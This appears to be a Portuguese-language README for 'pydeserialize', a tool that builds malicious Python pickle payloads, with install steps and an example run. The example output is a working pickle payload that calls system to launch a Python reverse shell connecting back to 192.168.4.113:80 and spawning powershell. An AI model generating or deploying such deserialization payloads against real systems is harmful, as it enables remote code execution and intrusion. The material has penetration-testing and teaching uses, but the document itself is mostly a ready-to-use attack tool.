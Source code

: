 # Instalação

pydeserialize requer **python3** e para baixá-lo só usar:

```sh
pip3 install pydeserialize
```

# Executando pydeserialize

```console
pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell

           _                 _     _ _         
 ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
|_| |___|  
     v0.0.8 - @joaoviictorti

b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
```

<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>